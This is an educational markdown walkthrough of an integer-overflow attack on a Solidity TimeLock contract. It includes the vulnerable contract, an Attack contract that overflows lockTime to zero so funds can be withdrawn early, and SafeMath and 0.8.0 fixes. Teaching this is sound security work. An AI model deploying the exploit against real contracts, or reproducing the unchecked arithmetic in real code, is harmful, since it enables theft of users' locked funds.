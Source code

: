 # Arithmetic Overflow / Underflow Attack in Solidity

---

## 1. What is Arithmetic Overflow / Underflow in Solidity?

* In Solidity versions **<0.8.0**, arithmetic operations on `uint` (unsigned integers) **do not revert** when they exceed their maximum or minimum values.
* Instead, they **wrap around**:

  * **Overflow**: if result > `2^256 - 1`, it wraps back to `0`.

    ```solidity
    uint8 x = 255;   
    x = x + 1; // x becomes 0
    ```
  * **Underflow**: if result < `0`, it wraps around to the maximum value.

    ```solidity
    uint8 y = 0; 
    y = y - 1; // y becomes 255
    ```

This behavior can be exploited if contracts rely on arithmetic for security conditions.

---

## 2. Understanding the Vulnerable Contract (`TimeLock`)

The **TimeLock** contract is meant to:

* Allow deposits.
* Force users to wait at least **1 week** before withdrawing.
* Let users extend their lock time.

### Functions:

* `deposit()`:

  * Stores deposited Ether in `balances[msg.sender]`.
  * Sets `lockTime[msg.sender] = block.timestamp + 1 weeks`.

* `increaseLockTime(uint256 _secondsToIncrease)`:

  * Increases the lock time.
  * **Vulnerability**: If `lockTime` overflows, it can wrap to a very small value or even `0`.

* `withdraw()`:

  * Requires:

    * The user has funds.
    * `block.timestamp > lockTime[msg.sender]`.
  * Transfers funds.

---

## 3. The Attack

The `Attack` contract exploits the overflow.

### Attack Strategy:

1. Deposit Ether (so lockTime is set to `now + 1 week`).
2. Calculate how much to **increase** lock time so it overflows back to `0`:

   ```solidity
   x = type(uint256).max + 1 - lockTime[address(this)]
   ```

   * Here `type(uint256).max = 2^256 - 1`.
   * Adding this value causes:

     ```
     lockTime + x = 2^256 = 0 (wrapped around)
     ```
3. After overflow, `lockTime[address(this)]` becomes `0`.
4. Since `block.timestamp > 0`, withdrawal succeeds immediately.

---

## 4. Walkthrough of the Given Code

### TimeLock

```solidity
function deposit() external payable {
    balances[msg.sender] += msg.value; // Track user funds
    lockTime[msg.sender] = block.timestamp + 1 weeks; // Enforce 1 week wait
}
```

```solidity
function increaseLockTime(uint256 _secondsToIncrease) public {
    lockTime[msg.sender] += _secondsToIncrease; // Vulnerable: no overflow check
}
```

```solidity
function withdraw() public {
    require(balances[msg.sender] > 0, "Insufficient funds");
    require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

    uint256 amount = balances[msg.sender];
    balances[msg.sender] = 0;

    (bool sent,) = msg.sender.call{value: amount}("");
    require(sent, "Failed to send Ether");
}
```

### Attack

```solidity
function attack() public payable {
    timeLock.deposit{value: msg.value}();

    // Craft malicious lock time increment
    timeLock.increaseLockTime(
        type(uint256).max + 1 - timeLock.lockTime(address(this))
    );

    // Withdraw immediately (lockTime = 0 after overflow)
    timeLock.withdraw();
}
```

---

## 5. Why This Works Only in Solidity <0.8.0

* In Solidity `0.8.0` and above, arithmetic overflow/underflow **throws an error** automatically.
* That’s why in newer contracts, this attack won’t work unless the developer explicitly disables checks with `unchecked { ... }`.

---

## 6. Fixing the Vulnerability

To fix it (for Solidity <0.8.0):

* Use **SafeMath** library (from OpenZeppelin) to handle overflows safely.

Example:

```solidity
using SafeMath for uint256;

function increaseLockTime(uint256 _secondsToIncrease) public {
    lockTime[msg.sender] = lockTime[msg.sender].add(_secondsToIncrease);
}
```

In Solidity ≥0.8.0:

* No extra library is needed since overflow checks are built-in.

---

✅ In short:
This exploit relies on **overflowing the `lockTime`** so that the waiting period is bypassed, allowing instant withdrawal.
